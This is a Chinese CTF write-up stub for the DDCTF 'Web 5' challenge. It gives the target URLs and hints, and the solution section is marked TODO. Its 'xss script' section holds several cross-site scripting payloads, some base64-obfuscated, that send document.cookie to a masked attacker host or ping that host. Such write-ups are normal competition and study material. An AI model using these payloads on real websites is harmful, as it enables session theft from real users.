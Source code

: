 # 0x05. Web 5 - 欢迎报名 DDCTF
## 题目
> 欢迎报名DDCTF  
> http://117.51.147.2/Ze02pQYLf5gGNyMn/  
> 
> 提示：XSS不是获取cookie  
> 提示2：之后是注入  

## 解题过程
TODO

## 涉及资料
- 源代码
  - [完整通关脚本](./index.js)
- 知识点


## xss script
```javascript
'eval(atob(\'' + btoa('window.location=\'http://---.---.---.---:----/\' + document.cookie') + '\'))'
```

```html
yelo</span><img src="http://---.---.---.---:----/ping">
yelo</span><img onerror="window.location = 'http://---.---.---.---:----/' + document.cookie">
yelo</span><img onerror="eval(btoa(('...'))">
```

- http://117.51.147.2/Ze02pQYLf5gGNyMn/admin.php
- http://139.199.107.193/hint.php

## EOF
[下一题](../6/readme.md)  
[回到目录](../../readme.md)

